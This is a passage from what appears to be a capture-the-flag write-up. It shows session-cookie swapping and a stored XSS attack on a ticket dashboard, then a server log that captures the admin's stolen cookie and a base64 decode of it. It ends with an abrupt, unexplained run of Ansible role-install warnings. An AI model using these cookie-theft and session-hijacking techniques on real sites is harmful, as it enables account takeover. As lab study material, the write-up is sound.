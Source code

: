 #### View Dashboard

I’ll take this cookie and go into the Firefox dev tools under Storage and find cookies for this site. I’ll replace what’s there with adam’s cookie:

![image-20240503135959763](/img/image-20240503135959763.png)

Now I’ll revisit `dashboard.comprezzor.htb`:

![image-20240503140019369](/img/image-20240503140019369.png)

### Access Dashboard as Admin

#### Enumerate

There are five tickets on the dash board. Viewing one shows three buttons:

![image-20240503141520386](/img/image-20240503141520386.png)

Clicking “Set High Priority” changes the value to 1:

![image-20240503141554738](/img/image-20240503141554738.png)

Now the button says “Set Low Priority”:

![image-20240503141614167](/img/image-20240503141614167.png)

Ticket seem to be deleted once they are processed relatively quickly, but if I rush, I can make a ticket and see it show up in there.

![image-20240503142545531](/img/image-20240503142545531.png)

#### Admin XSS

I’ll submit another ticket with my XSS payload and quickly go into the dashboard and make it high priority:

![image-20240503142955777](/img/image-20240503142955777.png)

After less than a minute, it’s gone, but there’s a new cookie at my webserver:

```
10.10.11.15 - - [03/May/2024 14:30:09] code 404, message File not found
10.10.11.15 - - [03/May/2024 14:30:09] "GET /description?cookie=user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5 HTTP/1.1" 404 -

```

It’s from the admin user:

```

oxdf@hacky$ echo eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5 | base64 -d
{"user_id": 1, "username": "admin", "role": "admin"}|34822333d444ae0e4022f6cc679ac9d26d1d1d682c59c61cfbea29d776d589d9

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.